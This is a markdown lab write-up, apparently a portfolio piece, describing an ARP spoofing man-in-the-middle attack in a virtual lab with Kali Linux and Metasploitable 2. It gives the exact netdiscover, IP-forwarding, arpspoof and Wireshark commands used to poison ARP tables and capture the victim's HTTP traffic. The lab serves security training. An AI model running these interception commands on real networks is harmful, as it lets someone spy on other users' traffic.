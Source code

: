 ## 📄 `Arp spoofing lab`

```
markdownCopyEdit# 🛡️ Network Security Lab – ARP Spoofing with Kali Linux & Wireshark

## ✅ Objective

Simulate a real-world **Man-in-the-Middle (MITM)** attack using **ARP Spoofing** to intercept and monitor traffic between a victim (Metasploitable) and the network gateway, using Kali Linux.

---

## 🧱 Network Setup

| Device           | Role       | IP Address       |
|------------------|------------|------------------|
| Kali Linux       | Attacker   | `192.168.1.182`  |
| Metasploitable 2 | Victim     | `192.168.1.184`  |
| Router/Modem     | Gateway    | `192.168.1.1`    |

🖧 Both machines were connected to the same **virtual network** using **Bridged Adapter**.

---

## 🧠 Step 1: Network Discovery

```bash
sudo netdiscover -r 192.168.1.0/24
```

* * *

## 🔧 Step 2: Enable IP Forwarding

```
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

🎯 This allows Kali to forward packets between the victim and the gateway.

![Ip2](file:///C:/Users/moham/OneDrive/Desktop/Ip2.png)

* * *

## 💣 Step 3: Launch ARP Spoofing Attack

### ➤ Terminal 1:

```
sudo arpspoof -i eth0 -t 192.168.1.184 192.168.1.1
```

🌀 Spoofs the victim to believe that Kali is the gateway.

### ➤ Terminal 2:

```
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.184
```

🌀 Spoofs the gateway to believe that Kali is the victim.


![Ip4](file:///C:/Users/moham/OneDrive/Desktop/Ip4.png)
![Ip5](file:///C:/Users/moham/OneDrive/Desktop/Ip5.png)
* * *

## 👁️ Step 4: Capture Traffic with Wireshark

```
sudo wireshark
```

- Interface selected: `eth0`
- Filter applied:

    ```
    ip.addr == 192.168.1.184
    ```



* * *

## 📥 Step 5: Generate Traffic from Victim

### On Metasploitable:

```
telnet 192.168.1.1 80
```

Then manually send:

```
GET / HTTP/1.1
Host: 192.168.1.1
```

🔍 This created HTTP traffic visible in Wireshark.



* * *

## ✅ Outcome

- Successfully poisoned ARP tables using `arpspoof`
- Intercepted HTTP traffic from victim to gateway using `Wireshark`
- Demonstrated a real-world MITM scenario in a virtual environment

* * *

## 📝 Tools Used

- Kali Linux (Attacker)
- Metasploitable 2 (Victim)
- `arpspoof` from `dsniff`
- `Wireshark`
- `netdiscover`, `telnet`



## 🧠 Key Learning Outcome

> 
> 
> “ARP Spoofing is a fundamental technique used in Man-in-the-Middle attacks. This lab proved how attackers can manipulate ARP tables and monitor or modify traffic in a LAN environment.”
> 

* * *

✅ *This lab is a strong addition to a cybersecurity resume or portfolio under **Network Security / Penetration Testing** section.*

